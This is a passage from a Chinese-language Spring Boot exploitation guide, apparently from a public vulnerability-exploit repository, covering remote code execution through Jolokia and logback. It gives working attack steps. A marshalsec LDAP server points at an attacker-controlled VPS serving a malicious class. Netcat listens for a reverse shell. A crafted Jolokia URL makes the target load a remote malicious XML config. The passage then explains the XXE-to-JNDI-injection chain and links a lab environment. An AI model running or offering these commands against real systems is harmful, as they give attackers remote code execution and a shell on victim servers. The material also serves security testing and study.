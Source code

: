 ```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```



##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```



##### 步骤六：从外部 URL 地址加载日志配置文件

> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```



#### 漏洞原理：

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞



#### 漏洞分析：

​	[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)



#### 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```



### 0x05：jolokia Realm JNDI RCE

#### 利用条件：
